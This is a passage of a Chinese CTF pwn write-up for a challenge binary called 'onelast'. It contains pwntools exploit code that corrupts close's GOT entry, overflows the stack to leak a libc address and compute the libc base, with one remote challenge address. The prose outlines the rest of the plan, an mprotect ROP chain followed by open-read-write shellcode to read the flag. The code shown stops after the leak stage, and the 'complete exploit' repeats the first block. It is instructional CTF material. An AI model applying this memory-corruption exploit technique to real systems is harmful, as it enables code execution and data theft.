 ```python
ret = 0x40101a
close_got = elf.got['close']
write_plt = elf.plt['write']
main_sym = elf.symbols['main']

p.sendafter(b'number :', p64(close_got))
p.sendafter(b'byte :', b'\xc0')

payload = b'a' * 0x18 + p64(ret) + p64(main_sym)

p.send(payload)

p.recvuntil(b'a' * 0x18)
p.recv(0xb8 - 0x18)
real_main = u64(p.recv(6) + b'\x00\x00') - 139
base = real_main - libc.symbols['__libc_start_main']
log.success('real_main: ' + hex(real_main))
log.success('base: ' + hex(base))
```
![[Pasted image 20241031163320.png]]
可以看到泄露了很多，在gdb中查看找到有用的部分
![[Pasted image 20241031163333.png]]
计算偏移可以算出`__libc_start_main`的真实地址，根据给出的`libc`文件可以算出`libcbase`。
有了`libcbase`可以利用偏移计算出我们需要的函数和`gadget`的地址从而加以使用。要使用`shellcode`型的`orw`我们首先需要一段有权限的位置，可以用`mprotect`函数，要构造这个函数需要三个参数，分别存在`rdi,rsi,rdx`中，`wp`中说当前版本`libc`不容易控制`rdx`，故用`xchg eax, edx`来设置`rdx`，设置完有权限的位置后还需要用read来将shellcode读入相应位置。然后编写`orw`的`shellcode`将`flag`的值泄露。
完整exp:
```python
from pwn import *
import pwnlib.gdb
import pwnlib.shellcraft

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
    p = process('./onelast')
    pwnlib.gdb.attach(p, 'b *0x4013c3')
else:
    p = remote('39.106.48.123', 27653)

elf = ELF('./onelast')
libc = ELF('./libc.so.6')

ret = 0x40101a
close_got = elf.got['close']
write_plt = elf.plt['write']
main_sym = elf.symbols['main']

p.sendafter(b'number :', p64(close_got))
p.sendafter(b'byte :', b'\xc0')

payload = b'a' * 0x18 + p64(ret) + p64(main_sym)

p.send(payload)

p.recvuntil(b'a' * 0x18)
p.recv(0xb8 - 0x18)
real_main = u64(p.recv(6) + b'\x00\x00') - 139
base = real_main - libc.symbols['__libc_start_main']
log.success('real_main: ' + hex(real_main))
log.success('base: ' + hex(base))
# pause()
```